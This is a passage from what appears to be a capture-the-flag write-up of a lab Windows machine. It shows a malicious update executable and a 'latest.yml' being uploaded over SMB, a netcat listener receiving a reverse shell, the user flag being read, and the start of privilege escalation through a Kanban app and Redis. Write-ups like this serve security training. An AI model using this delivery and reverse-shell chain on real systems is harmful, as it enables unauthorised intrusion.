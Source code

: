 ```swift
putting file up'date.exe as \client1\up'date.exe (8.5 kb/s) (average 8.5 kb/s)
smb: \client1\> put latest.yml
putting file latest.yml as \client1\latest.yml (0.2 kb/s) (average 4.6 kb/s)
smb: \client1\>
```

Upon upload we’d get a reverse connection on our machine.

\## Reverse Connection

```swift
⛩\> nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.14.42] from (UNKNOWN) [10.129.99.96] 51066
Microsoft Windows [Version 10.0.19042.906]
(c) Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>whoami
whoami
atom\jason

C:\WINDOWS\system32>
```

\## User Flag

```swift
PS C:\> cd users/jason/desktop
cd users/jason/desktop
PS C:\users\jason\desktop> get-childitem
get-childitem


    Directory: C:\users\jason\desktop


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         3/31/2021   2:09 AM           2353 heedv1.lnk
-a----         3/31/2021   2:09 AM           2353 heedv2.lnk
-a----         3/31/2021   2:09 AM           2353 heedv3.lnk
-ar---         4/19/2021  11:36 PM             34 user.txt


PS C:\users\jason\desktop> Get-Content user.txt
Get-Content user.txt
de1bb61685d6f6061132bfcd2509ffc6
PS C:\users\jason\desktop>
```

# Privilege Escalation

In the current user directory, we can find portable kanban application. It is a physical board to manage your daily tasks. It is possible to create a common board and share information with colleagues, but for that they should have Redis server. As we already know from our initial enumeration that Redis is already present on target. Let’s see the configuration file of kanban.
